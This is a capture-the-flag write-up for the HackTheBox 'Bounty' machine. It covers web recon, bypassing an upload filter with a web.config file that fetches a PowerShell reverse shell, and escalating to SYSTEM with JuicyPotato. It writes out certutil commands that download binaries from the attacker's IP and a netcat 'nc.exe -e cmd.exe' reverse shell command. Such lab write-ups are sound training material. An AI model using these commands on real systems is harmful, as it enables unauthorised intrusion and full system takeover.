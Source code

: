 # Bounty [HTB](https://app.hackthebox.com/machines/Bounty)
![bounty-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/bounty-01.png)

## Recon 

After adding the target to `/etc/hosts`, i run an `nmap` scan:

```bash
nmap -sC -sV -A -p- bounty.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/nmap-res-02.png)

We have the following:

+ An IIS v7.5 on port 80.

We have a single web server, lets see what we can find. 


### IIS Port 80

Lets start by navigating towards the site at `http://bounty.htb` 

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/site-03.png)

Not much to see here, lets try a directory and file scan using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://bounty.htb/FUZZ -e .cgi,.php,.aspx,.asp
```

![ffuf-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-04.png)

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/ffuf-05.png)

We have two interesting results. The first is a file upload directory, if we use Burp to intercept the 
request to this link we will get a `403` forbbiden return code:

![forbidden-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/forbidden-06.png)

On the other hand, we have a file upload page enabled for public use on this server:

![upload-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-07.png)

Lets try to upload a simple `.txt` file to the server:

![txt-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/txt-08.png)

We get an error. Lets examine the replay in `Burp`:

![burp-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/burp-09.png)

There is a server side `ValidateFile()` funciton. I couldnt find this functiuon executing on the client 
side. We cant be sure exactly how the function works, it could determine acceptable file types via HTTP 
headers, magic numbers, file extensions, etc. 

Lets try to upload a `jpg` image:

![jpg-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/jpg-10.png)

So we see that `jpg` files are accepted. Can we view the image from the `uploadedfiles` directory? 

![view-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/view-11.png)

Yes we can. Ok, so now ideally what we want to do is find a way to land a reverse shell. With an IIS 
server we can try a copule of things. We can try to upload an `.aspx` reverse shell, which doesnt work 
in this case. The file upload validator checks the file extension. I've tried different tricks to 
bypass this but nothing worked for me. 

But we can also inject code inside a `web.config` file, which in this case, is accepted:

![config-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/config-12.png)


If we open the file via the browser we get an internal error:

![internal-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/internal-err-13.png)

This happens becasue the server tried to render the file, but failed because there was no valid syntax, lets change that. 

I found a `web.config` file for a reverse shell on [Github](https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/blob/master/web.config).

![rshell-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/rhsell-14.png)

As you can see, it runs a PowerShell command to grab a reverse shell from our host and execute it.
First, download the `web.config` file and update you attack machine's IP. 

Next, grab a copy of [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)'s `Invoke-PowerShellTCP.ps1` script to your working directory and invoke the reverse shell cmdlet at the buttom:

![cmdlet-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/cmdlet-15.png)

Now we need to host this file via a python web server:

```bash
python3 -m http.server 80
```

Upload the `web.config` file to the server:

![upload-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/upload-16.png)

Start the listener:

```bash
rlwrap nc -lnvp 443
```

Execute the  `web.config` file via the URL at `http://bounty.htb/uploadedfiles/web.config`.

This should give you access to the target system:

![shell-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/shell-17.png)


## Privilege Escalation

If we check for our user's privileges with:

```cmd
whoami /priv
```

![privs-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/privs-18.png)

We can see we have the `Impersonate` privileged enabled. We can potentially exploit this with a [potato attack](https://github.com/ohpe/juicy-potato), downlaod from [here](https://github.com/ohpe/juicy-potato/releases).


Once you have the `JuicyPotato.exe` binary in your working directory, grab a copy of `/usr/share/windows-resources/binaries/nc.exe` as well. Then start a Python server with:

```bash
python3 -m http.server 80
```

Now from the traget, `cd` into a directory we can write to like `C:\Users\merlin\AppData\Local\Temp` and download both files with:

```cmd
certutil -urlcache -f http://10.10.14.62/JuicyPotato.exe jp.exe
certutil -urlcache -f http://10.10.14.62/nc.exe nc.exe
```

Start the listener with:

```bash
rlwrap nc -lnvp 9001
```


Execute the exploit with:

```cmd
C:\Users\merlin\AppData\Local\Temp\jp.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c C:\Users\merlin\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.14.62 9001" -t *
```

This should yield you shell access as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bounty/img/root-19.png)
